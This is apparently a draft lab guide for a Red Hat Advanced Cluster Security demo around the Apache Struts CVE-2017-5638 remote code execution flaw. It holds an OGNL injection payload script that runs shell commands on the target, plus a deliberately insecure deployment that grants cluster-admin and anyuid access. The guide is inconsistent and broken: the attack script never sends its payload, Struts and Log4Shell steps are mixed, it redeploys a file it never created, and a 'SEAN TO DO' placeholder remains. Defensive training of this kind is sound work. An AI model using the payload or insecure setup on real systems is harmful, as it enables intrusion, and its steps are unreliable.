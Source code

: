 ==  Black Hat - RHACS Struts RCE Vulnerability Demonstration 

In this lab, you demonstrate how to quickly stop shells being spawned from the `struts` vulnerabilities Red Hat^(R)^ Advanced Cluster Security for Kubernetes (RHACS). 

.Goals
* Prevent the execution of RCE exploit

== Ensure a clean environment

. Start by ensuring you have a clean lab environment. Run the following command to reset any changes others may have made.

[source,sh,subs="attributes",role=execute]
----
oc delete project struts-rce
rm ~/vuln-dep.yaml
----

== Deploy the struts infected container image

The next step is to deploy the log4shell laden container image to the OpenShift cluster. 

. Procedure
. Start by creating a new project and deploying a vulnerable struts application. 

[source,sh,subs="attributes",role=execute]
----
oc new-project struts-rce
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
Now using project "struts-rce" on server "http://api.cluster-fdg9s.fdg9s.sandbox674.opentlc.com:6443".

You can add applications to this project with the 'new-app' command. For example, try:

    oc new-app rails-postgresql-example

to build a new example application in Ruby. Or use kubectl to deploy a simple Kubernetes application:

    kubectl create deployment hello-node --image=k8s.gcr.io/serve_hostname
----

[start=2]
. Apply a policy to allow privileged containers: 
[source,sh,subs="+macros,role=execute"]
----
oc adm policy add-scc-to-group anyuid system:authenticated
----

[start=3]
. Next, deploy the vulnerable application by creating and applying the following deployment YAML file:

[source,sh,subs="attributes",role=execute]
----
cat << EOF >vuln-dep.yaml
apiVersion: v1
kind: Namespace
metadata:
  name: struts-rce
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: 'web'
  namespace: struts-rce
  labels: 
    app: web
spec:
  replicas: 1
  selector:
    matchLabels:
      app: web
  template:
    metadata:
      labels:
        app: web
    spec:
      containers:
        - image: "quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest"
          imagePullPolicy: Always
          name: web
          ports:
          - name: http
            containerPort: 8080
            protocol: TCP
      serviceAccountName: web-service-account
      restartPolicy: Always
---
apiVersion: v1
kind: Service
metadata:
  name: 'web'
  namespace: struts-rce
  labels:
    app: web
spec:
  type: "NodePort"
  ports:
  - name: http
    port: 80
    nodePort: 30004
    protocol: TCP
    targetPort: 8080
  selector:
    app: "web"
---
apiVersion: v1
kind: ServiceAccount
metadata:
  name: web-service-account
  namespace: struts-rce
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: web-role
  namespace: struts-rce
rules:
  - apiGroups:
        - ""
    resources:
      - secrets
    verbs: ["*"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: web-rolebinding
  namespace: struts-rce
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: Role
  name: web-role 
subjects:
- kind: ServiceAccount
  name: web-service-account
---
apiVersion: v1
kind: Secret
metadata:
  name: connectionstrings
  namespace: struts-rce
data:
  sql: U2VydmVyPW15c3Fsc2VydmVyO0RhdGFiYXNlPWRiO1VzZXIgSWQ9YWRtaW47UGFzc3dvcmQ9UEBzc3dvcmQ7
---
apiVersion: v1
kind: ServiceAccount
metadata:
  name: admin-service-account
  namespace: struts-rce
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: admin-clusterrolebinding
  namespace: struts-rce
subjects:
- kind: ServiceAccount
  name: admin-service-account
  namespace: struts-rce
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
---
apiVersion: v1
kind: Secret
metadata:
  name: admin-service-account-token
  namespace: struts-rce
  annotations:
    kubernetes.io/service-account.name: admin-service-account
type: kubernetes.io/service-account-token
---
apiVersion: v1
kind: Secret
metadata:
  name: web-service-account-token
  namespace: struts-rce
  annotations:
    kubernetes.io/service-account.name: web-service-account
type: kubernetes.io/service-account-token
EOF
----

[start=4]
. Deploy the struts deployment into your new projecct by using the 'oc' CLI

[source,bash,role="execute"]
----
oc create -f ./vuln-dep.yaml
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
[lab-user@bastion ~]$ oc create -f ./vuln-dep.yaml
deployment.apps/web created
----

[start=5]
. Ensure that the application was deployed without issues. 

[source,bash,role="execute"]
----
oc get pods -l deployment=web -A
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
[lab-user@bastion ~]$ oc get pods -n struts-rce
NAME                  READY   STATUS    RESTARTS   AGE
web-95f4544df-9s9n5   1/1     Running   0          56s
----

IMPORTANT: For the last part of this section, check to make sure that the struts vulnerability is in the container with a quick CLI scan using the roxctl CLI

[start=6]
. Execute the following command in the terminal to ensure the struts vulnerability is present.

[source,bash,role="execute"]
----
roxctl --insecure-skip-tls-verify -e "$ROX_CENTRAL_ADDRESS:443" image scan --image=quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest --force -o table --severity=CRITICAL
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
Scan results for image: quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest
(TOTAL-COMPONENTS: 5, TOTAL-VULNERABILITIES: 14, LOW: 0, MODERATE: 0, IMPORTANT: 0, CRITICAL: 14)

+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
|                  COMPONENT                  | VERSION |       CVE        | SEVERITY |                       LINK                        |           FIXED VERSION            |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
|    commons-fileupload:commons-fileupload    |  1.2.2  | CVE-2016-1000031 | CRITICAL | https://nvd.nist.gov/vuln/detail/CVE-2016-1000031 |               1.3.3                |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
|                 log4j:log4j                 | 1.2.17  |  CVE-2022-23307  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2022-23307  |        lastAffected=1.2.17         |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2022-23305  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2022-23305  |        lastAffected=1.2.17         |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2019-17571  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2019-17571  | introduced=1.2&lastAffected=1.2.17 |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
| org.apache.struts:struts2-convention-plugin | 2.3.12  |  CVE-2016-6795   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2016-6795   |               2.3.31               |
+---------------------------------------------+         +------------------+----------+---------------------------------------------------+------------------------------------+
|       org.apache.struts:struts2-core        |         |  CVE-2016-4436   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2016-4436   |               2.3.29               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2021-31805  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2021-31805  |               2.5.30               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2019-0230   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2019-0230   |               2.5.22               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2016-3082   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2016-3082   |              2.3.20.3              |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2020-17530  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2020-17530  |               2.5.26               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2017-5638   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2017-5638   |               2.3.32               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2023-50164  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2023-50164  |               2.5.33               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2017-12611  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2017-12611  |               2.3.34               |
+---------------------------------------------+         +------------------+----------+---------------------------------------------------+------------------------------------+
|  org.apache.struts:struts2-struts1-plugin   |         |  CVE-2017-9791   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2017-9791   |        lastAffected=2.3.37         |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
WARN:   A total of 14 unique vulnerabilities were found in 5 components
----

NOTE: You can see that a number of CVE's, including CVE-2023-50164 and  can be found in the quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest container image that your just deployed.

=== Leverage the remote code execution in the struts vulnerability
[start=7]
Create the attack script: 
[source,sh,subs="attributes",role=execute]
----
cat << EOF >attack.py
import http.client
import urllib.error
import urllib.parse
import urllib.request


def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
EOF
----

[start=8]
And launch the attack! 
[source,sh,subs="attributes",role=execute]
----
python3 attack.py http://api.cluster-fdg9s.fdg9s.sandbox674.opentlc.com:30004 "whoami"
----

Great job so far!
image::https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExbnY0NDA0ZnJqNXh6cGNqeHNxZGd5Zm5qMnlpOHhrbm1hY2pwcG5ydSZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/p18ohAgD3H60LSoI1C/giphy.gif[link=self, window=blank, width=100%, class="center"]

== Red Hat^(R)^ Advanced Cluster Security (RHACS) web console 

Red Hat Advanced Cluster Security for Kubernetes is a Kubernetes-native security platform that equips you to build, deploy, and run cloud-native applications with more security. The solution helps protect containerized Kubernetes workloads in all major clouds and hybrid platforms, including Red Hat OpenShift, Amazon Elastic Kubernetes Service (EKS), Microsoft Azure Kubernetes Service (AKS), and Google Kubernetes Engine (GKE).

=== Access the RHACS web console.

*Procedure*

[start=1]
. Log into the RHACS console at `{acs_route}`
. Click the "Advanced" button in your browser

image::../assets/images/01-rhacs-advanced.png[RHACS login not private] 

[start=3]
. Click "Proceed to {acs_route}"

image::../assets/images/01-rhacs-proceed.png[RHACS login proceed]

[start=4]
. Enter the RHACS credentials 

[cols="1,1"]
|===
*RHACS Console Username:* | {acs_portal_username} |
*RHACS Console Password:* | {acs_portal_password} |
|===

image::../assets/images/01-rhacs-login.png[RHACS console]

image::../assets/images/01-rhacs-console-dashboard.png[RHACS console]



=== Find the struts vulnerability in RHACS dashboard. 

The next step is to use the ACS dashboard to locate the Log4shell vulnerability. The following gif will showcase how to locate the vulnerability witht the exact steps outlines below. 

NOTE: CVE-2021-44228 & CVE-2021-45046 can both be used to find the log4shell vulnerabiulity in the dashboard. 

image:../assets/images/misc-log-1.gif[]

. Procedure

SEAN TO DO

=== Set Deploy Time Enforcement to On

You must enable deploy-time enforcement for the `Log4Shell: log4j Remote Code Execution vulnerability` policy.

.Procedure
. Navigate to *Platform Configuration -> Policy Management* and find the policy called `Log4Shell: log4j Remote Code Execution vulnerability`.
+
TIP: To find the policy quickly, type `Policy` followed by `Log4Shell` into the filter bar on the *Policy Management* page.

// image::images/11_log4shell_04.png[]

. Select the policy by clicking the three dots to the right and select `Edit policy`.

image::../assets/images/11_log4shell_05.png[]

. Use the `Policy Behavior` tab and enable runtime enforcement by clicking the `inform and enforce button` under `Response Method`
. Scroll down to `Configure enforcement behavior` and switch both the `Enforce on Build` and `DEnforce on Deploy` selectors to on. 

image::../assets/images/11_log4shell_06.png[]

. Click *Review Policy* on the left and *Save*.

+
. Redeploy the vulnerable image
+
[source,bash,role="execute"]
----
oc create -f ./deploy.yaml
----
+
. Examine the output and note that the Deployment failed to start:
+

.Sample Output
[source,texinfo]
----
Error from server (Failed currently enforced policies from StackRox): error when creating "./deploy.yaml": admission webhook "policyeval.stackrox.io" denied the request:
The attempted operation violated 1 enforced policy, described below:

Policy: Log4Shell: log4j Remote Code Execution vulnerability
- Description:
    ↳ Alert on deployments with images containing the Log4Shell vulnerabilities
      (CVE-2021-44228 and CVE-2021-45046). There are flaws in the Java logging library
      Apache Log4j in versions from 2.0-beta9 to 2.15.0, excluding 2.12.2.
- Rationale:
    ↳ These vulnerabilities allows a remote attacker to execute code on the server if
      the system logs an attacker-controlled string value with the attacker's JNDI
      LDAP server lookup.
- Remediation:
    ↳ Update the log4j libary to version 2.16.0 (for Java 8 or later), 2.12.2 (for
      Java 7) or later. If not possible to upgrade, then remove the JndiLookup class
      from the classpath: zip -q -d log4j-core-*.jar
      org/apache/logging/log4j/core/lookup/JndiLookup.class
- Violations:
    - CVE-2021-44228 (CVSS 10) (severity Critical) found in component 'log4j' (version 2.14.1) in container 'log4shell'
    - CVE-2021-45046 (CVSS 9) (severity Critical) found in component 'log4j' (version 2.14.1) in container 'log4shell'


In case of emergency, add the annotation {"admission.stackrox.io/break-glass": "ticket-1234"} to your deployment with an updated ticket number
----
+
[CAUTION]
====
You might get a different message, detailed below.
RHACS has not yet scanned the image, and is blocking unscanned images from deployment.
If that is the case, simpley run the `oc create -f ./deploy.yaml` again and it will have scanned the image.
Now the deployment will trigger the log4j violations above.
----
Error from server (Failed currently enforced policies from StackRox): error when creating "./deploy.yaml": admission webhook "policyeval.stackrox.io" denied the request:
The attempted operation violated 1 enforced policy, described below:

Policy: Images with no scans
- Description:
    ↳ Alert on deployments with images that have not been scanned
- Rationale:
    ↳ Without a scan, there will be no vulnerability information for this image
- Remediation:
    ↳ Configure the appropriate registry and scanner integrations so that StackRox can
      obtain scans for your images.
- Violations:
    - Image in container 'log4shell' has not been scanned


In case of emergency, add the annotation {"admission.stackrox.io/break-glass": "ticket-1234"} to your deployment with an updated ticket number

----
====

== View Violations Report

A complete record of the event can be found on the *Violations* page.

.Procedure
. Navigate to the *Violation* page from the left navigation bar.
. Use the Filter Bar to find the `Policy: Log4Shell: log4j Remote Code Execution vulnerability` and select the policy name.
. Explore the list of the violation events.

== Summary

You enabled Log4Shell deploy-time policy enforcement, and verified that the policy prevented the `log4shell` container from running.

